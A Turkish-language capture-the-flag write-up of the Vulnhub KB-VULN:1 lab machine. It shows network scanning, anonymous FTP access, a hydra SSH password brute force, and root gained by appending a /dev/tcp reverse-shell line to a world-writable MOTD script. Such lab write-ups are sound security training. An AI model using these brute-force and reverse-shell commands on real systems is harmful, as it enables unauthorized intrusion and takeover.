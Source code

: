 ```yaml
---
title: "VULNHUB KB VULN:1 Makinası Write Up"
date: 2020-09-17T20:40:54+03:00
draft: false
toc: true
images:
tags: [Vulnhub,write-up,ssh,nmap,hydra] 
categories: [Write-up]
author : "Barcode"
Description : "Merhaba, Bu yazımda sizlere [VULNHUB](https://www.vulnhub.com/entry/kb-vuln-1,540/) 'da yer alan medium seviye KB-VULN: 1 adlı makinanın çözümünden bahsedeceğim.Hatalı yada ilave açıklama gerektiren yerler için yorum bırakabilirsiniz. Keyifli okumalar..."
cover : images/vulnhub/kb-vuln1/cover.png
  
---
```

Merhaba, Bu yazımda sizlere [VULNHUB](https://www.vulnhub.com/entry/kb-vuln-1,540/) 'da yer alan medium seviye KB-VULN: 1 adlı makinanın çözümünden bahsedeceğim. Keyifli okumalar...

## 1. Keşif Aşaması
{{< text >}}
Makina kalıp dosyası siteden indirildikten sonra sanallaştırma yazılımları tarafından import edilir ve çalıştırılır. DHCP servisi tarafından atanan ip adresinin tespit edilmesi için netdiscover aracı ile ağda tarama yapılır.
{{< /text >}}
```bash
netdiscover -i eth0
```

{{< image src="/images/vulnhub/kb-vuln1/netdiscover.png" alt="Hay aksi" position="center" style="border-radius: 10px;" >}}

Ip adresi tespit edildikten sonra nmap ile makinenin açık portları ve portlarda çalışan servisleri tespit edilir.

{{< image src="/images/vulnhub/kb-vuln1/nmap.png" alt="Hay aksi" position="center" style="border-radius: 10px;" >}}
{{< text >}}
Ftp portunda çalışan servisin konfigürasyon ayarları varsayılan olarak bırakıldığı için anonymous erişim açıktır. Ftp servisine bağlanılır ve paylaşıma açık dosyalar incelenir.
{{< /text >}}
{{< image src="/images/vulnhub/kb-vuln1/ftp1.png" alt="Hay aksi" position="center" style="border-radius: 10px;" >}}

**.bash_history** adlı dosya bilgisayara indirilir.

{{< image src="/images/vulnhub/kb-vuln1/ftp2.png" alt="Hay aksi" position="center" style="border-radius: 10px;" >}}
{{< text >}}
İndirilen dosyanın içeriğine bakıldığından ssh vb. erişimlerde kullanıcıya verilen karşılama mesajının (Günün Mesajı-Message Of The Day(motd)) yer aldığı <i style="color:yellow"> <strong> 00-header </strong></i> dosyasında değişiklik yapıldığı görülmektedir. Yetki yükseltme aşamasında kullanılabilir.
<br>
{{< /text >}}
{{< image src="/images/vulnhub/kb-vuln1/file.png" alt="Hay aksi" position="center" style="border-radius: 10px;" >}}

Tarayıcı ile web servisine istek atılır. Oneschool adlı bir web sayfası açılmaktadır. Sayfa kaynak kodları incelendiğinde bir kullanıcı adı tespit edilmektedir.

{{< image src="/images/vulnhub/kb-vuln1/website.png" alt="Hay aksi" position="center" style="border-radius: 10px;" >}}
{{< text >}}
<br>
{{< /text >}}
{{< image src="/images/vulnhub/kb-vuln1/websource.png" alt="Hay aksi" position="center" style="border-radius: 10px;" >}}
{{< text >}}
Web dizininde gobuser ile dizin taraması gerçekleştirilir. Yapılan dizin ve alt dizin taramalarında ilk erişim için parola yada giriş paneli tespit edilememiştir. Elde edilen kullanıcı adı ile hydra aracı ile ssh servisine brute force saldırı yapılır.
{{< /text >}}
```terminal
hydra -l sysadmin -P /usr/share/wordlists/rockyou.txt ssh://192.168.56.102
```

{{< image src="/images/vulnhub/kb-vuln1/hydra.png" alt="Hay aksi" position="center" style="border-radius: 10px;" >}}

## 2. Erişim Sağlanması

Elde edilen parola ile ssh erişimi sağlanır.

```terminal
[barcode@parrot]─[~]$ ssh sysadmin@192.168.56.102
The authenticity of host '192.168.56.102 (192.168.56.102)' can't be established.
ECDSA key fingerprint is SHA256:9z5jY109u48eo71sMGnTp9s13QY0KGVMI9B/m2mkCZs.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.56.102' (ECDSA) to the list of known hosts.
sysadmin@192.168.56.102's password: 

			WELCOME TO THE KB-SERVER

Last login: Sat Aug 22 18:00:48 2020
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

sysadmin@kb-server:~$
```
sysadmin kullanıcısına ait home dizininde yer alan dosyalar listelenir ve user.txt dosyası okunarak ilk flag elde edilir.

{{< image src="/images/vulnhub/kb-vuln1/userflag.png" alt="Hay aksi" position="center" style="border-radius: 10px;" >}}

## 3. Yetki Yükseltme

İlk olarak _**/etc/update-motd.d/**_ dizinine gidilir ve 00-header dosyasının izinleri kontrol edilir.

```terminal
sysadmin@kb-server:~$ cd /etc/update-motd.d/
sysadmin@kb-server:/etc/update-motd.d$ ls -lsa
total 16
4 drwxr-xr-x  3 root root 4096 Aug 22 17:08 .
4 drwxr-xr-x 92 root root 4096 Sep 11 08:24 ..
4 -rwxrwxrwx  1 root root  989 Aug 22 17:08 00-header
4 drwxr-xr-x  2 root root 4096 Aug 22 17:07 other
```
00-header dosyasında tüm kullanıcılara yazma yetkisi verildiği görülmektedir. Normal kullanımda bu yetki sadece root yetkisinde olmaktadır. Dosya içeriği görüntülenir.

{{< image src="/images/vulnhub/kb-vuln1/header1.png" alt="Hay aksi" position="center" style="border-radius: 10px;" >}}

Ssh erişiminde çalışan dosyanın hangi kullanıcı yetkisi ile çalıştırıldığının tespiti için whoami komutu eklenir.

```bash
echo "whoami" >> 00-header
```

```bash
sysadmin@kb-server:/etc/update-motd.d$ cat 00-header 
#!/bin/sh
#
#    00-header - create the header of the MOTD
#    Copyright (C) 2009-2010 Canonical Ltd.
#
#    Authors: Dustin Kirkland <kirkland@canonical.com>
#
#    This program is free software; you can redistribute it and/or modify
#    it under the terms of the GNU General Public License as published by
#    the Free Software Foundation; either version 2 of the License, or
#    (at your option) any later version.
#
#    This program is distributed in the hope that it will be useful,
#    but WITHOUT ANY WARRANTY; without even the implied warranty of
#    MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
#    GNU General Public License for more details.
#
#    You should have received a copy of the GNU General Public License along
#    with this program; if not, write to the Free Software Foundation, Inc.,
#    51 Franklin Street, Fifth Floor, Boston, MA 02110-1301 USA.

[ -r /etc/lsb-release ] && . /etc/lsb-release

echo "\n\t\t\tWELCOME TO THE KB-SERVER\n"
whoami
```

Ssh bağlantısı kesilip tekrardan erişim sağlandığında 00-header dosyası içerisinde çalıştırılan dosyaların root yetkisi ile çalıştırıldığı görülmektedir. 

```terminal
sysadmin@192.168.56.102's password: 

			WELCOME TO THE KB-SERVER

root <--- Eklenen komut Çıktısı
Last login: Thu Sep 17 19:06:26 2020 from 192.168.56.1
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.
```

Yüksek yetki ile shell bağlantısı sağlamak için 00-header dosyasına aşağıda yer alan komut eklenir ve tekrar erişim sağlanıldığında 4444 numaralı porta shell bağlantısı düşmektedir.

```bash
echo "bash -c 'exec bash -i &>/dev/tcp/192.168.56.101/4444 <&1'" >> 00-header 
```

{{< image src="/images/vulnhub/kb-vuln1/header2.png" alt="Hay aksi" position="center" style="border-radius: 10px;" >}}

{{< text >}}
<br>
{{< /text >}}

{{< image src="/images/vulnhub/kb-vuln1/root.png" alt="Hay aksi" position="center" style="border-radius: 10px;" >}}

{{< text >}}
<br>
Root dizinine gidilir ve flag.txt dosyası okunarak makina çözümlemesi tamamlanır.

{{< /text >}}

{{< image src="/images/vulnhub/kb-vuln1/rootflag.png" alt="Hay aksi" position="center" style="border-radius: 10px;" >}}
















